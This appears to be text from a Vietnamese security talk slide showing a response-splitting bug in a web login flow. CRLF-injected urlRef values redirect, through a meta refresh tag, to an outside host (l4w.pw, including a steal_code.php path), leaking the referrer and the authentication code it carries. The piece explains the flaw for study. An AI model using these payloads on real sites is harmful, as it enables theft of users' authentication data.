

urlRef=//l4w.pw/%0d%0aSet-Cookie: a=1
GET /index.php/myvt/
authen?data=QXs7wu....6dMrylrgw&urlRef=/myvt/

<meta http-equiv="refresh" content="0;//l4w.pw/

Set-Cookie...">

urlRef=//l4w.pw/steal_code.php?%0d%0aBlah:
GET /index.php/myvt/
authen?data=QXs7wu....6dMrylrgw&urlRef=/myvt/
Location: //l4w.pw/

<meta http-equiv="refresh" content="0;//l4w.pw/steal_code.php?

Blah:">

Nhờ vào tính năng để chống HTTP Response Spliting… Server đã xóa đi trường Location và… vô tình tiếp tay cho attacker có thể leak referrer bằng <meta> tag